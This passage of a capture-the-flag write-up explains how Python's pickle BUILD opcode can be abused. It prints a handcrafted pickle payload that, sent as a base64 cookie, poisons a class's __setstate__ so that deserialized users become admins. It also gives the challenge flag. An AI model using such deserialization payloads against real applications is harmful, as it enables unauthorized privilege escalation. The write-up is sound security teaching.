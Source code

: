 Notice that if `inst` has a `__setstate__` attribute, the build opcode will call that function instead. Most importantly, in this case, the build opcode will *not* continue to write to `__dict__` or call `setattr`. This could lead to different behavior the next time it is invoked.

With this, we can form a plan. Our pickle should have the necessary attributes to make `is_admin` return `True`, use `BUILD` to set the necessary attributes to make `is_admin` return `False`, and finally use `BUILD` to set `__setstate__` on the `db.User` class to any callable. On the next deserialization, the `BUILD` to make `is_admin` return `False` will do nothing, and our deserialized user will be an admin, allowing us to get the flag.

## Building the Pickle
Once again, we will write our pickle manually. We have to be somewhat clever about how we execute our plan, because once `__setstate__` is set, then `BUILD` will never work again. The solution is to set `admin` to `True` on the `db.Admin` *class* rather than an instance, so that all users are admins by default. Then, we can construct new users by using `REDUCE` on the constructor instead of using `BUILD`.

```python
p = PROTO + b'\x04' + \
  GLOBAL + b'db\nUser\n' + \
  NONE + \
  MARK + \
    UNICODE + b'admin\n' + \
    NEWTRUE + \
    DICT + \
  TUPLE2 + BUILD + \
  EMPTY_TUPLE + REDUCE + \
  MARK + \
    UNICODE + b'admin\n' + \
    NEWFALSE + \
    DICT + \
  BUILD + \
  GLOBAL + b'db\nUser\n' + \
  NONE + \
  MARK + \
    UNICODE + b'__setstate__\n' + \
    GLOBAL + b'db\nUser\n' + \
    DICT + \
  TUPLE2 + BUILD + \
  POP + \
  STOP
```

This pickle first uses `BUILD` to set `admin` to `True` on the `db.User` class, then uses `REDUCE` to construct a new user object. Then, it uses `BUILD` again to set `admin` to `False` on the newly constructed user object. Lastly, it uses `BUILD` one last time to set `__setstate__` to `db.User` on the `db.User` class. As with the last challenge, if you don't understand this fully, I highly recommend following `pickletools.dis` and stepping through it one instruction at a time.

Encoding this pickle with base64 and setting it as our cookie gives the Pokédex page containing the flag.

## Flag
```
actf{what?_ekans_is_evolving..._into_3K4N5!}
```
